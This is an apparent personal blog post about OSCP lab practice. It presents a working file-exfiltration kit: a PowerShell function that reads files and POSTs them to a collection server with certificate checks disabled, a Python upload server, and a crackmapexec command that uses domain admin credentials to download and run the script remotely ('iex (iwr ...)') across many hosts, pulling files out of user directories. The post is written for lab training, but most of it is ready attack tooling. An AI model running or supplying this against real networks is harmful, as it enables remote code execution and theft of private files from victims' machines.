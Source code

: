 ```yaml
---
title: "Lazy file exfiltration for OSCP labs with powershell python and crackmapexec"
date: 2024-02-08T15:34:30-06:00
categories:
  - blog
tags:
  - exfiltration
  - python
  - powershell
  - OSCP
---
```

<b>Lazy is good when the result is that lazy becomes affordable.</b>
<br><a target="_new" href=https://github.com/jeamajoal/lazy_pwshpy_exfiltrator>Skip to the code.</a>

<b>Background:</b><br>
While diving into OSCP labs, I found myself searching through disk contents for clues. Although I'm adept at using the command line, sometimes the ease of navigating folders visually is preferable. Missing crucial details in a lab, likely from being tired, made me decide to find a better solution to avoid such misses.

<b>The Idea:</b><br>
My plan was to automate a simple yet effective process. The goal was to filter and exfiltrate files to a web server where I could easily sift through them. Simplicity was the cornerstone.

<b>Solution:</b><br>
I opted for a Powershell script utilizing Get-ChildItem with a -Filter parameter, coupled with the System.Net.Webclient class for exfiltration. I discovered a Python3 web server by another creator that fit my initial needs and decided to build upon it. Credit to the original creator: <a target="_new" href=https://edepree.com/2014/10/18/lightweight-http-upload-server.html>Lightweight HTTP Upload Server</a>.

<b>Challenge:</b><br>
I needed more than just dumping files into a single folder; I wanted them organized. This meant enhancing the server to handle additional data from my script for better file management.

<b>Check It Out:</b><br>
See the current version on GitHub: <a target="_new" href=https://github.com/jeamajoal/lazy_pwshpy_exfiltrator>Jeamajoal's Lazy PwshPy Exfiltrator</a>. The Powershell script's core functionality is in the upload function, where it sends file data along with the file path, so the server knows where to place the files.

<b>Powershell snippet for uploading files:</b><br>

```powershell

function UploadToWebServer($filepath, $url) {
        [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true } ;
        $filename = Split-Path $FilePath -Leaf
        $boundary = [System.Guid]::NewGuid().ToString()

        $TheFile = [System.IO.File]::ReadAllBytes($filePath)
        $TheFileContent = [System.Text.Encoding]::GetEncoding('iso-8859-1').GetString($TheFile)

        $id = $env:computername

        $LF = "`r`n"
        $bodyLines = (
            "--$boundary",
            "Content-Disposition: form-data; name=`"path`"$LF",
            $(Split-Path $FilePath),
            "--$boundary",
            "Content-Disposition: form-data; name=`"id`"$LF",
            $id,
            "--$boundary",
            "Content-Disposition: form-data; name=`"filename`"; filename=`"$filename`"",
            "Content-Type: application/json$LF",
            $TheFileContent,
            "--$boundary--$LF"
        ) -join $LF

        Invoke-RestMethod $url -Method POST -ContentType "multipart/form-data; boundary=`"$boundary`"" -Body $bodyLines
    }
    
```

<b>Python server side for handling the data:</b><br>

```python
def deal_post_data(self):
        global serverpath 
        line = b'' #Initialize line data as byte
        file_data = b''  # Initialize file_data as an empty byte string
        in_file_data = False #Initialize in file as boolean
        content_type = self.headers['content-type']
        if not content_type:
            return (False, "Content-Type header doesn't contain boundary")
        boundary = content_type.split("=")[1]
        boundary = boundary.replace('"','').encode()
        end_boundary = boundary + b"--"
        totalbytes = int(self.headers['content-length'])
        remainbytes = totalbytes
        #modify serverpath with alternate upload dir  
        if uDir:
            serverpath = os.path.join(os.getcwd(),uDir)
        else:
            serverpath = os.getcwd()
   
        #Process request
        while remainbytes > 0:
            line = self.rfile.readline()
            remainbytes -= len(line)

            if in_file_data:
                if boundary in line:
                    in_file_data = False
                    file_data = file_data[:-2]  # Remove the last CRLF before boundary
                    if end_boundary in line:
                        break  # End of data
                else:
                    file_data += line
                    continue

            if end_boundary in line:
                        break  # End of data
            if boundary in line:
                line = self.rfile.readline()
                remainbytes -= len(line)
                id = re.findall(r'Content-Disposition.*name="id"', line.decode())
                reqpath = re.findall(r'Content-Disposition.*name="path"', line.decode())
                fn = re.findall(r'Content-Disposition.*name="filename"; filename="(.*)"', line.decode())
                if fn:
                    in_file_data = True
                    file_name = re.findall(r'Content-Disposition.*name="filename"; filename="(.*)"', line.decode())
                    file_data = file_data[:-2]
                    line = self.rfile.readline()
                    remainbytes -= len(line)
                    line = self.rfile.readline()
                    remainbytes -= len(line)

                elif reqpath:
                    line = self.rfile.readline()
                    remainbytes -= len(line)
                    line = self.rfile.readline()
                    remainbytes -= len(line)
                    reqpath = line
                    ip_address = self.client_address[0]
                    #remove \r\n
                    reqpathstr = reqpath.decode()
                    reqpathstr = reqpathstr.replace("\r","")
                    reqpathstr = reqpathstr.replace("\n","")
                    if reqpathstr.startswith('/') or reqpathstr.startswith('\\'):
                        reqpathstr = reqpathstr.strip('/')
                        reqpathstr = reqpathstr.strip('\\')
                    reqpathstr = reqpathstr.replace('\\','/')
                    reqpathstr = reqpathstr.replace('\\','/')
                    reqpathstr = reqpathstr.replace('//','/')
                    reqpathstr = reqpathstr.replace(':','')
                    reqpathstr = os.path.join(ip_address,reqpathstr)
                    finalpath = os.path.join(serverpath,reqpathstr)

                elif id:
                    #print(line)
                    line = self.rfile.readline()
                    #print(line)
                    remainbytes -= len(line)
                    line = self.rfile.readline()
                    #print(line)
                    remainbytes -= len(line)
                    line = line.decode()
                    line = line.replace("\r","")
                    line = line.replace("\n","")
                    newid = line
                    
        if finalpath:
            serverpath = finalpath                    
        
        if newid:
            serverpath = serverpath.replace(ip_address,newid)

        serverpath = serverpath.lower()
        if not os.path.exists(serverpath):
            os.makedirs(serverpath)

        fn = os.path.join(serverpath, file_name[0])
        #print(f'Final upload path: {serverpath}')
        try:
            with open(fn, 'wb') as out:
                out.write(file_data)
            return ('succeeded',self.client_address,fn )
        except:
            return ('Failed',self.client_address,fn )
```

<b>The Fun Part:</b>

Start your postserver.py
We set the ip, port, and relative upload directory. (I serve files from the curent directory and upload to a sub-directory)

```shell
python3 python/postserver.py -b 0.0.0.0 -p 8443 -u uploads
```
This blog talks about mass exfiltration so we will assume you are like me and just have to run this once you find Domain Admin creds becasue you just want to see it happen. :)
We will use crackmapexec to source the upload.ps1 from our server and run it. This command is looking for the proofs but in the OSCP labs i use this as an initial peek into the Users directory on Windows boxes becasue from my experience offsec likes to put the juicy there or the root of the drive.

```shell
crackmapexec smb $(cat nodes.txt) -u DomainAdminUser -p DAPassword -x 'powershell.exe -command "iex (iwr http://192.168.45.242:8443/tools/upload.ps1 -usebasicparsing);exfil -dir c:\users\ -recurse -include ""*local.txt,*proof.txt"" -url http://192.168.45.242:8443 "'
```
<b>LOOT!!!</b>
![Loot Flows In](/_posts/res/PostServer.png?raw=true)



